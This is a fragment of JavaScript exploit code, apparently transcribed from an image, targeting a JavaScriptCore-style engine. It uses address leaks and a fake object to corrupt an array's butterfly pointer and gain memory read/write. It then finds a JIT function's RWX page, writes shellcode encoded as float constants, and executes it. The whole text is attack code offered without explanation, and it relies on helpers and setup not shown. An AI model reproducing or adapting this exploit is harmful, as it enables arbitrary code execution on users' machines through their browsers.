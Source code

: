```
// we then want to allocate an array at a memory address greater than the butterfly and we use this object to overwrite the target butterfly
var baseAddr = leakAddr(sprayedStructureIDs[0x80])
print("[+] Base address @ 0x" + baseAddr.toString(16))
var target = []
var targetAddr = leakAddr(target)

while(targetAddr < baseAddr){
  target = []
  targetAddr = leakAddr(target)
}

target[1] = 1.1

print("[+] Got a array with controllable butterfly")
let fakeAddr = leakAddr(fakeHost) + 0x10
let hax = fakeObj(fakeAddr)

let targetButterflyIndex = ((targetAddr - baseAddr) / 8) + 1;
let targetButterflyPointer = f2i(hax[targetButterflyIndex])
print("[+] target butterfly == 0x" + targetButterflyPointer.toString(16))
print("[+] target address @ 0x" + targetAddr.toString(16))

function setTargetButterfly(address) {
  hax[targetButterflyIndex] = i2f(address)
}

print("[+] Got R/W primitive")

var myJitAddr = leakAddr(jitMe)

setTargetButterfly(myJitAddr+24)
var ptr1 = f2i(target[0])
setTargetButterfly(ptr1+8)
var ptr2 = f2i(target[2])
setTargetButterfly(ptr2-8)
target[0]=1.1
setTargetButterfly(ptr2+16)
var rwx = f2i(target[0])

print("[+] RWX address @ 0x" + rwx.toString(16))
setTargetButterfly(rwx)
target[0] = 7.724899899490056e+228
target[1] = 1.3869658928112658e+219
target[2] = -1.4290575191402725e-37
target[3] = 1.0940812634921282e+189
target[4] = 2.0546950522151997e-81
target[5] = -1.416537102831749e-34
target[6] = 1.1467072576990874e+23
target[7] = 3.39834180316358e+78
target[8] = 1.5324871326e-314
target[9] = 3.173603568941646e+40
target[10]= 1.9656830452398213e-236
target[11]= -6.828527034422582e-229

print("[+] Executing Shellcode...")

jitMe([13.37],[13.37])
`

eval(postTrigger)                 
```
